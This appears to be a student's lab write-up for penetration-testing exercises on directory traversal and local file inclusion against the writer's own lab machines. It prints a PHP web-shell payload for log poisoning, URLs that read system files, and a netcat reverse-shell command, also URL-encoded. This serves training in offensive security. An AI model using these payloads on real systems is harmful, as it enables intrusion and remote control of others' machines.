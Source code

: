 3.  Does this exploit attack the server or clients of the site?
As this is a stored XSS the server is on the recieving end. That being said, any user who visits the page is suseptable to attack.

# 9.7.2 Directory Traversal Vulnerabilities

## Practice - Directory Traversal Vulnerabilities

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

This exploit only requires us to visit the following url:
`http://192.168.231.10/menu.php?file=current_menu.php`

From there we can edit the field after `menu.php?file=` to any file we wish to read, for example:
`http://192.168.231.10/menu.php?file=c:\windows\system32\drivers\etc\hosts`

# 9.8.5 LFI Code Execution

#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Obtain code execution through the use of the LFI attack.
- First, we make a malicious request to the server, injecting a PHP function into the log file that will execute the OS command
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
(note the `<pre>` tag meaning the line will be saved in its preformatted state, ignore breaks and spaces)

Here we can see the command being injected into this log file.
![[log_poisoning.png]]
- We then simply navigate to the vulnerable log file and call our newly injected function
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`
![[lfi_log_ipconfig.png]]
2.  Use the code execution to obtain a full shell.
We can simply alter our URL to execute the following command:
`nc -e cmd.exe 192.168.119.231 9001`
After encoding, the full URL would resemble the following:
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc%20-e%20cmd.exe%20192.168.119.231%209001`
![[log_lfi_revshell.png]]

# 9.8.7 Remote File Inclusion (RFI)
